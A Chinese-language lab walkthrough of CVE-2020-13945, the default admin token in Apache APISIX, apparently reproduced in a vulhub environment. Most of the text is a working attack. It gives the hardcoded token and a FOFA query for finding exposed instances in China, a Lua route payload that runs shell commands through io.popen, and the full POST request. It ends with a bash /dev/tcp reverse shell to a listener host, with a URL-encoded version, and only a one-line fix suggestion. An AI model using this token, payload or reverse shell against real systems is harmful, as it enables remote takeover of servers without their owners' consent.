 # Apache APISIX 默认密钥漏洞 

## 漏洞编号

```
CVE-2020-13945
```



## 漏洞描述

Apache APISIX是一个高性能API网关



在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token 

```
edd1c9f034335f136f87ad84b625c8f1
```

攻击者利用这个Token可以访问到管理员接口，进而通过script参数来插入任意LUA脚本并执行



### 影响范围

```
apisix 1.2
apisix 1.3
apisix 1.4
apisix 1.5
```



## FOFA语法

```
title="Apache APISIX" && status_code="200" && country="CN"
```



## 环境配置

vulhub

```
docker-compose up -d
docker-compose ps
```

![image-20250411103031913](./assets/image-20250411103031913.png)



访问192.168.1.15:9080

![image-20250411103438979](./assets/image-20250411103438979.png)



## 漏洞复现

访问192.168.1.15:9080/apisix/admin/routes

![image-20250411103553060](./assets/image-20250411103553060.png)

返回failed to check token则证明可利用



构造生成router的payload

```
{ 
"uri": "_PowerShell", 
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M", 
"upstream": { 
"type": "roundrobin", 
"nodes": { "example.com:80": 1
 } 
}
 }

```

功能是添加一个叫做_PowerShell的router



访问192.168.1.15:9080/apisix/admin/routes

抓包

将请求方式改为POST

添加请求头X-API-KEY

```
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
```

请求体为构造的payload

完整数据包

```
POST /apisix/admin/routes HTTP/1.1
Host: 192.168.1.15:9080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 370

{ 
"uri": "_PowerShell", 
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close() \n end \nreturn _M", 
"upstream": { 
"type": "roundrobin", 
"nodes": { "example.com:80": 1
 } 
}
 }

```

![image-20250411103835807](./assets/image-20250411103835807.png)



201，router创建成功



访问192.168.1.15:9080/_PowerShell?cmd=id

![image-20250411104224939](./assets/image-20250411104224939.png)

id命令成功执行



尝试反弹shell

本地开启监听

```
nc -lvp 443
```

![image-20250411104650967](./assets/image-20250411104650967.png)



尝试反弹shell

```
bash -i >& /dev/tcp/192.168.1.21/443 0>&1
```

由于是get型传参，因此要将特殊字符进行URL编码

```
http://192.168.1.15:9080/_PowerShell?cmd=bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.1.21%2f443%200%3e%261
```

![image-20250411105021465](./assets/image-20250411105021465.png)

成功弹回shell



## 修复建议

更新到最新版本